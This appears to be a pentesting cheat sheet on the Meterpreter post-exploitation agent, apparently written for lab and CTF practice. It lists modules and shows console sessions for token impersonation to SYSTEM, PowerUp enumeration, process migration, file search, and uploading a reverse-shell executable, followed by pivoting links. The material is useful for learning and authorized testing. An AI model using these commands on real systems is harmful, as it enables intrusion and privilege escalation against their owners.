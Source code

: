 ```yaml
---
title: Meterpreter
description: Meterpreter C2 introduction.
---
```


# Meterpreter

## Modules

### List of modules

Meterpreter modules : [source code](https://github.com/rapid7/metasploit-framework/tree/master/lib/rex/post/meterpreter/ui/console/command_dispatcher).

- espia : Capture audio, video, screenshots from the remote system.
- [incognito](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/) : Allow you to impersonate user tokens.
- lanattacks
- [powershell](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/powershell-extension.html) : Enable powershell (interactive shell, single command, ...).
- [python](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/python-extension.html) : Interact with a python interpreter
- stdapi
- winpmem
- extapi
- kiwi : Mimikatz extension.
- peinjector : Inject a given shellcode into an executable file.
- priv : Privilege escalation extension.
- sniffer : Packet sniffer.
- unhook

### Incognito

```
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\IIS_IUSRS
BUILTIN\Users
[...]
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Powershell

```
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell

PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
[...]
```

## Migrate on process

More information about the [migrate](https://www.hackingarticles.in/metasploit-for-pentester-migrate/) command.

Even though you have a higher privileged token you may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). Ensure that you migrate to a process with correct permissions.

```
meterpreter > ps | grep services
Filtering on 'services'

Process List
============

 PID  PPID  Name          Arch  Session  User                 Path
 ---  ----  ----          ----  -------  ----                 ----
 668  580   services.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\services.exe

meterpreter > migrate 668
[*] Migrating from 996 to 668...
[*] Migration completed successfully.
```

## Search for files

```
meterpreter > search -f shell.exe
Found 1 result...
=================

Path                              Size (bytes)  Modified (UTC)
----                              ------------  --------------
c:\Users\bruce\Desktop\shell.exe  73802         2021-12-11 12:20:17 +0100
```

## Upload / Download

```
meterpreter > download shell.exe
[*] Downloading: shell.exe -> /home/.../alfred/shell.exe
[*] Downloaded 72.07 KiB of 72.07 KiB (100.0%): shell.exe -> /home/.../alfred/shell.exe
[*] download   : shell.exe -> /home/.../alfred/shell.exe

meterpreter > upload shell.exe 'c:\Users\bruce\Desktop\reverse.exe'
[*] uploading  : /home/.../alfred/shell.exe -> c:\Users\bruce\Desktop\reverse.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/.../alfred/shell.exe -> c:\Users\bruce\Desktop\reverse.exe
[*] uploaded   : /home/.../alfred/shell.exe -> c:\Users\bruce\Desktop\reverse.exe
```

## Pivoting / Autoroute

- https://www.tutorialspoint.com/metasploit/metasploit_pivoting.htm
- https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html#autoroute

## Socks proxy

- https://blog.pentesteracademy.com/socks4-proxy-pivoting-by-metasploit-74436b45392a
- https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html#socks-module